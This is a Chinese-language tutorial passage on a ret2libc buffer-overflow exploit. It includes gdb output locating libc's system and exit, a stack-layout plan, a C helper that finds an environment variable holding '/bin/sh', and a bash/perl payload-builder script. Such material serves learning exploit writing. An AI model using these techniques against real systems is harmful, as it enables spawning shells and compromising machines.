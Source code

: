 ```
Program received signal SIGINT, Interrupt.
0xb7f53c1e in __read_nocancel () at ../sysdeps/unix/syscall-template.S:82
82      ../sysdeps/unix/syscall-template.S: No such file or directory.
        in ../sysdeps/unix/syscall-template.S
Current language:  auto
The current source language is "auto; currently asm".
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>----------------------->we need
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>-------------------------->we need
```

我们要使用ret2libc

Q:为什么参数在减8bytes处。
A:参照refs文档说明。

Q:WIN-NT下也是如此么
A:扩展阅读
https://www.corelan.be/index.php/category/security/exploit-writing-tutorials
'pop pop ret' trick etc

所以我们构思的栈内存构造如下：
[aaaaaaaaaaaaaaa...][system call address][exit call address][system args][exit args]

Q:我们如何找到system-call的参数呢
A:1.上面的aaaaa里面填。2.系统环境变量。3.其他

我们使用环境变量
way1:
```
// Prints the approximate address of an environmental variable
#include <stdio.h>
#include <stdlib.h>
 
int main(int argc, char **argv) {
    char *addr = getenv(argv[1]);
    if (addr == NULL) {
        printf("%s not found\n", argv[1]);
        return 1;
    }
    else {
        printf("%s is at address %p\n", argv[1], getenv(argv[1]));
    }
}
```
export ASDF="/bin/sh"

way2:
```
#!/bin/bash
if [[ $# -lt 2 ]]; then
    echo "usage: $0 OFFSET ADDRESS. Example: $0 80 0xdeadbeef 0xf00f00f0"
    exit 1
fi

perl -e "print 'A'x$1"
shift
for addr in $@; do
    for i in $(seq 8 -2 2); do echo -ne "\x${addr:$i:2}"; done
done
```
